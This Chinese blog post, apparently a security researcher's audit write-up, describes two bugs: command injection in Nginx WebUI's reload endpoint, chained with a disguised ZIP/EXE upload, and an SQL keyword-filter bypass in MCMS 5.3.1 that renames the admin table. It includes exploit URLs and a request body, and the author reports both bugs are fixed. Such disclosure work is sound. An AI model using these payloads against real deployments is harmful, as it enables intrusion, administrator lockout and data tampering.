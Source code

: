 

# 浅谈白盒下命令执行与注入绕过的挖掘 - 先知社区

浅谈白盒下命令执行与注入绕过的挖掘

- - -

### 1\. 前言

在进行白盒时，会经常性的碰到过滤器，拦截器以及一些规则的拦截。本文针对前些时间的审计做整理。

### 2\. Nginx WebUI 命令执行利用

在早些时候，进行了挖掘，主要是针对命令执行的绕过，各种杂七杂八繁琐的绕过才可以进行命令执行。  
往期文章：[https://xz.aliyun.com/t/12690](https://xz.aliyun.com/t/12690)  
但其实有一种更为简便的方法。  
在此处可以直接上传 ZIP，这个稍后提供思路。  
[![](assets/1709261905-b6f46aaae4cd4e9d6a9dcdb38ba6f136.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228111651-d101ed28-d5e7-1.png)  
首先来看一处命令执行

```plain
@Mapping("reload")
    public synchronized JsonResult reload(String nginxPath, String nginxExe, String nginxDir) {
        if (nginxPath == null) {
            nginxPath = ToolUtils.handlePath(this.settingService.get("nginxPath"));
            this.settingService.set("nginxPath", nginxPath);
        }
        if (nginxExe == null) {
            nginxExe = ToolUtils.handlePath(this.settingService.get("nginxExe"));
            this.settingService.set("nginxExe", nginxExe);
        }
        if (nginxDir == null) {
            nginxDir = ToolUtils.handlePath(this.settingService.get("nginxDir"));
            this.settingService.set("nginxDir", nginxDir);
        }
        try {
            String cmd = nginxExe + " -s reload -c " + nginxPath;
            if (StrUtil.isNotEmpty(nginxDir)) {
                cmd = cmd + " -p " + nginxDir;
            }
            String rs = RuntimeUtil.execForStr(cmd);
            String cmd2 = "<span class='blue'>" + cmd + "</span>";
            if (StrUtil.isEmpty(rs) || rs.contains("signal process started")) {
                return renderSuccess(cmd2 + "<br>" + this.m.get("confStr.reloadSuccess") + "<br>" + rs.replace("\n", "<br>"));
            }
            if (rs.contains("The system cannot find the file specified") || rs.contains("nginx.pid") || rs.contains("PID")) {
                rs = rs + this.m.get("confStr.mayNotRun");
            }
            return renderSuccess(cmd2 + "<br>" + this.m.get("confStr.reloadFail") + "<br>" + rs.replace("\n", "<br>"));
        } catch (Exception e) {
            this.logger.error(e.getMessage(), (Throwable) e);
            return renderSuccess(this.m.get("confStr.reloadFail") + "<br>" + e.getMessage().replace("\n", "<br>"));
        }
    }
```

可以发现在传入时，只要这三个参数不为 null，则会到 20 行的调用命令处。  
所以按照以下进行构造：  
[http://url/adminPage/conf/reload?nginxPath=&nginxExe=powershell%20&nginxDir=1](http://url/adminPage/conf/reload?nginxPath=&nginxExe=powershell%20&nginxDir=1)  
(尴尬.jpg)  
[![](assets/1709261905-c52b0f93b11bca5ac030be895962b63b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228112950-a11f4bee-d5e9-1.png)  
其实见怪不怪了。  
[![](assets/1709261905-db7d49a0c41bd3b2eb7d11af42819a70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228113757-c39a1f40-d5ea-1.png)  
有了此时上面的上传点，所以就是可以配合任意文件上传，传入一个文件来进行执行即可，没什么技术含量。但是那处功能点，只能传入 zip，那就传入一个后缀为 zip，结构为 pe 文件结构的文件。这里直接将 calc.exe 的 pe 文件结构里面的数据全部 copy 进来，上传之后可以发现传入一个 calc.zip  
通俗理解起来就是传入了一个 calc.exe 后缀为.zip 而已  
[![](assets/1709261905-70bfa205e55df81021b791f60fc14c7b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228113529-6b7b9a00-d5ea-1.png)  
配合前面传入的 calc.zip  
之后在[http://192.168.0.108:8080/adminPage/conf/reload这个controller传入参数即可](http://192.168.0.108:8080/adminPage/conf/reload%E8%BF%99%E4%B8%AAcontroller%E4%BC%A0%E5%85%A5%E5%8F%82%E6%95%B0%E5%8D%B3%E5%8F%AF)  
可以看见传入的命令为文件上传传入的 zip 文件路径，访问之后成功执行这个文件，这个文件就是前面传入的 calc.zip，这里不需要关注文件后缀。会自动解析 zip，发现 zip 为 pe 文件结构，将当成 exe 文件执行了。  
这里用的 calc.exe 作为例子，当然也可以生成一个恶意的 exe 来执行，达到获取权限的目的。  
[http://192.168.0.108:8080/adminPage/conf/reload?nginxPath=notepad&nginxExe=C:/Users/ADMINI~1/AppData/Local/Temp/calc.zip%20&nginxDir=%26calc](http://192.168.0.108:8080/adminPage/conf/reload?nginxPath=notepad&nginxExe=C:/Users/ADMINI~1/AppData/Local/Temp/calc.zip%20&nginxDir=%26calc)  
[![](assets/1709261905-703273a4f3aaadeb99ecad50a19100d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228113540-71be1bb8-d5ea-1.png)

### 2\. SQL 注入绕过水洞

之前在审 MCMS(5.3.1) 时，挖掘到了一个水洞，奈何没绕过该注入。  
通过代码审计得知，首先看 action。  
在net.mingsoft.mdiy.action#importJson方法允许接收一个ModelEntity类  
[![](assets/1709261905-d8fd69c0d5795aa19eeadef62cbd3fca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114401-9cb3b49e-d5eb-1.png)  
稍后就会走到net.mingsoft.mdiy.biz.impl#importModel方法  
这里会获取到从 importJson 方法传过来的数据，并获取 sql 这个字段的内容，并最后传入到 excuteSql(sql) 来执行该 sql 语句。  
[![](assets/1709261905-38d1e0322ef923cca745688fcdf39dea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114436-b1455de0-d5eb-1.png)  
但是这里有一个过滤，不允许有 select insert...这些关键字

```plain
if (!StringUtils.isBlank(sql) && !StrUtil.containsAnyIgnoreCase(sql, new CharSequence[]{"INSERT ", "SELECT ", "UPDATE ", "DELETE ", "DROP ", "ALTER ", "TRUNCATE "})) {
    this.modelDao.excuteSql(sql);
}
```

最后传入 Dao 层，来执行 sql 语句  
[![](assets/1709261905-dd4ab7471b0524f4ad2ac03cd12ae9de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114510-c591d7ba-d5eb-1.png)  
[![](assets/1709261905-dc749f57f4ad3dfddd7bac0e3234c6f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114518-ca66fbc6-d5eb-1.png)  
既然是白盒方式，水洞的方式可就多了。  
首先可以看见，管理员表为 manager  
[![](assets/1709261905-2166e72d53b528f29228e66abccd8bd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114615-ec4de81c-d5eb-1.png)  
之后登录后，进行发包，这里数据包中的 title 和 tableName 随便填写即可。但是只能使用一次，因为会被添加到数据表中。所以多次发包的时候，title 和 tableName 一定要修改。

```plain
modelType=cms&modelJson=
{
  "html": "\n<template id=\"custom-model\">\n    <el-form ref=\"form\" :model=\"form\" :rules=\"rules\" label-width=\"120px\" label-position=\"right\" size=\"small\">\n\n    </el-form>\n</template>\n",
  "title": "test01",
  "script": "",
  "sql": "rename table manager to xxxxxxxx",
  "tableName": "test01"
}
```

[![](assets/1709261905-78b2be6f86dd36f48b07197354b36049.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114742-20461af4-d5ec-1.png)  
最后可以看见，manager 管理员表名被改成了 xxxxxxxx。  
同理，也可以自己创建一个管理员表  
[![](assets/1709261905-7369ee7d377d78876d6c80921c22acd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114831-3dbe374c-d5ec-1.png)  
[![](assets/1709261905-508319a2e9e4a294b16a92e83fdd5650.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114837-40ff7196-d5ec-1.png)  
之后就会发现，管理员无法正常登录了。因为此时表已经被更改。  
[![](assets/1709261905-6236c3cb5ebdb7211da5c389511d29cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228114853-4a5ad1b8-d5ec-1.png)  
当然也可以对其它表进行更改，影响的可能就是页面数据问题了。至于其它的思路就是 replace into 针对管理员表新增一个用户，或者添加一个 Mysql 用户进行远程连接。这里大家可以自行发挥。

### 结尾

在白盒中挖掘，可以最大化的利用自己的思路来水到洞。至于以上案例已经全部修复。
